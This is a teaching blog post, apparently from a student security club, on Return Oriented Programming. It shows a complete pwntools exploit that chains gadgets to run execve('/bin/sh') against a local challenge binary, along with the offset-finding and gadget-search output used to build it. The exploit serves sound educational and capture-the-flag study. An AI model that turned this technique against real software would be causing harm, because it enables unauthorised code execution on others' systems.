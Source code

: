 ```yaml
---
title: "Introduction to ROP Chain Attacks"
date: 2021-11-11T12:40:28+01:00
draft: true
author: "***REMOVED***"
description: "An introductory session modern binary exploitation techniques"
tags: ["pwn", "rop", "ret2libc"]
categories: ["Academic Year 2021-22"]
---
```


This week was the last of Ben's 4 week binary exploitation introductory series. It introduced the concept of Return Oriented Programming, demonstrated 2 methods of ROP exploitation on dynamic and statically linked binaries, and explained how some protections can be bypassed. The presentation slides can be downloaded [here](./presentation.pdf). We won't go into great detail into the theory of ROP, as it is covered in the presentation, but we will quickly recap on a high level.

Return Oriented Programming is a modern binary exploitation method designed to overcome the NX Stack compiler protection. It involves chaining together short series' of machine code instructions called *gadgets*. Using these gadgets, and a buffer overflow, we can redirect program flow and potentially gain code execution.  

## Demonstration 1: Classic ROP

The first demonstration covers what I call 'classic ROP'. It is the method of using ROP to achieve code execution without the use of external libraries. The first challenge binary is a statically linked.

```bash
> file challenge
challenge: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

It's not a very interesting program. It prints text to stdout, takes an input, prints something else, then exits.

```bash
> ./challenge
ROP me!
foobar
Bad luck. Exiting
```

Let's use GDB to find the offset to the return pointer, same as we did in the Stack Smashing exercises.

```py
pwndbg> cyclic 200 -n=8
pwndbg> r
pwndbg> x/xg $rsp
0x7fffffffd878: 0x6161616f61616161
pwndbg> cyclic -l 0x6161616f61616161 -n=8
108
```

We have an offset of 108, remember we can check this by sending a payload of 108 byte of junk data followed by a fake address such as `0xdeadbeef`. If 0xdeadbeef is in the RIP when the process SegFaults then we are correct.

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./challenge")
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

offset = 108

p.sendlineafter(b"ROP me!", flat({offset: pack(0xdeadbeef)}))

p.interactive()
```

Running the program and attaching to GDB in the same way as last week, we see that 0xdeadbeef is in the RIP.

![0xdeadbeef inside the RIP at SegFault](images/ss1.png)

To exploit this program, we need to build an exploit that essentially does `execve("/bin/sh", 0, 0)` like our shellcode would although we need to use gadgets rather than shellcode due to the fact that NX Stack is enabled on the binary. PIE is not enabled meaning we can search for gadgets and hard code their addresses, as their location will not change at runtime.

Remembering x86_64 calling conventions, we need the string `/bin/sh` in RDI, and 0 in RSI and RDX. We also need a gadget for RAX and a syscall.  Let's use Ropper to find the gadgets for this. 

```py
> ropper --file challenge --search "pop rdi"
[...]
0x000000000040106d: pop rdi; ret;
> ropper --file challenge --search "pop rsi"
[...]
0x0000000000401073: pop rsi; mov rdi, rsi; ret;
> ropper --file challenge --search "pop rdx"
[...]
0x0000000000401078: pop rdx; ret;
> ropper --file challenge --search "pop rax"
[...]
0x0000000000401017: pop rax; syscall;
```

There are convenient gadgets for all operations we want to do, so we can build a ROP chain using the ROP module of pwntools. We should use the RSI gadget first as it will clobber any data in RDI.

We also need the string `/bin/sh`. Thankfully it already exists in the binary. If this were not the case our ROP chain would need to write `/bin/sh` into memory before trying to execve.

```py
pwndbg> search /bin/sh
challenge       0x40201c 0x68732f6e69622f /* '/bin/sh' */
```

We can now finish our script.

```py
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge", checksec=False)
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

# 59 execve	const char *filename const char *const *argv const char *const *envp 	
offset = 108

pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
pop_rax_syscall = rop.find_gadget(["pop rax", "syscall"])[0]
pop_rsi_mov_rdi_rsi = 0x0000000000401073
binsh = next(elf.search(b"/bin/sh"))
pop_rdx = rop.find_gadget(["pop rdx", "ret"])[0]
pop_rax = 0x000000000040107a

rop.raw(pop_rsi_mov_rdi_rsi)
rop.raw(p64(0))
rop.raw(pop_rdi)
rop.raw(binsh)
rop.raw(pop_rdx)
rop.raw(p64(0))
rop.raw(pop_rax_syscall)
rop.raw(p64(59))

p.sendlineafter(b"ROP me!", flat({offset: rop.chain()}))

p.interactive()
```

The exploit works. This shows how we can use the native instructions present in a program to create our own malicious exploit code.

![Shell from Classic ROP](images/ss2.png)

